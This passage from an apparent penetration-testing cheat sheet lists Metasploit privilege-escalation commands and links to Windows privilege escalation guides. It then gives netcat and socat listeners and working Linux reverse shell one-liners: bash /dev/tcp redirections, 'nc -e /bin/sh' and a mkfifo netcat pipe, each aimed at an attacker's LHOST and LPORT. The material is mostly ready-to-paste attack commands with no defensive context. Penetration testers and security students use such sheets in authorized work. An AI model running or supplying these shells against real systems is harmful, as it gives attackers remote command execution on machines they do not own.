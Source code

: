 **Metasploit:**

```
getsystem
run post/multi/recon/local_exploit_suggester
```

#### Resources

* [https://sushant747.gitbooks.io/total-oscp-guide/privilege\_escalation\_windows.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
* [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
* [https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) (Win Privesc Checlist)
* [https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)

***

### Reverse Shells & TTY

* [Reverse Shell Cheat Sheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
* [PayloadsAllTheThings Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

#### Listeners

```bash
# Socat
socat file:`tty`,echo=0,raw tcp-listen:LPORT

# Netcat
nc -lvvp LPORT
```

#### Linux Reverse Shells

**Bash**

```bash
bash -i >& /dev/tcp/LHOST/LPORT 0>&1
0<&196;exec 196<>/dev/tcp/LHOST/LPORT; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/LHOST/LPORT && while read line 0<&5; do $line 2>&5 >&5; done
```

**Netcat**

```bash
nc -e /bin/sh LHOST LPORT
/bin/sh | nc LHOST LPORT
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f
```
